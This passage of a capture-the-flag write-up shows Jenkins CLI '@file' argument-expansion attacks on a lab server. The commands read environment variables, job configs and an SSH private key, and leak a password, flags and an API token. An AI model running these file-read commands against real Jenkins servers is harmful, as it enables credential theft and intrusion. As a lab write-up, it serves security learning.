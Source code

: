 Running who-am-i with @/proc/self/environ worked:
- account: `developer`
- password: `cicdismyThang`
- FLAG1: `Flag1.LeftMyFlagShowin`


On the Jenkins dashboard, Job2 contained failed Git SSH jobs due to permission errors.

```bash
Started by user admin
Running as SYSTEM
Building in workspace /var/jenkins_home/workspace/Job2
[Job2] $ /bin/sh -xe /tmp/jenkins3977855085558897809.sh
+ git clone git@github.com:secretprojects/repo1.git
Cloning into 'repo1'...
git@github.com: Permission denied (publickey).
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
Build step 'Execute shell' marked build as failure
Finished: FAILURE
```

I attempted to read related config files but this gave me only the first 2 lines I was still hitting a limitaiton on the leak.


`java -jar jenkins-cli.jar -s http://glitch-two.3f30795e908a7c17.ctf.land:7756 who-am-i "@/var/jenkins_home/jobs/Job2/config.xml"`


  then i tried
  `java -jar jenkins-cli.jar -s http://glitch-two.3f30795e908a7c17.ctf.land:7756 -webSocket help @/var/jenkins_home/.ssh/id_rsa`

  this worked giving me 

```bash
  ERROR: Too many arguments: # Flag2.MyKeyIsShowing^@#1
java -jar jenkins-cli.jar help [COMMAND]
Lists all the available commands or a detailed description of single command.
 COMMAND : Name of the command (default: # Flag on next line:)
 ```

I decided to poke around the admin console using a generated API token called `dev_token` to see if I could leak more data. 

My first target was the failed job from earlier, which I had previously tried to access but ran into limitations with the help and who-am-i commands.

 This time, all I managed to retrieve was the expected admin account and its identifier string.


```bash
java -jar jenkins-cli.jar -s http://glitch-two.3f30795e908a7c17.ctf.land:7756 -auth developer:11b761923d80e56860f480c20f5748d594 -webSocket connect-node @/var/jenkins_home/jobs/Job2/config.xml
```
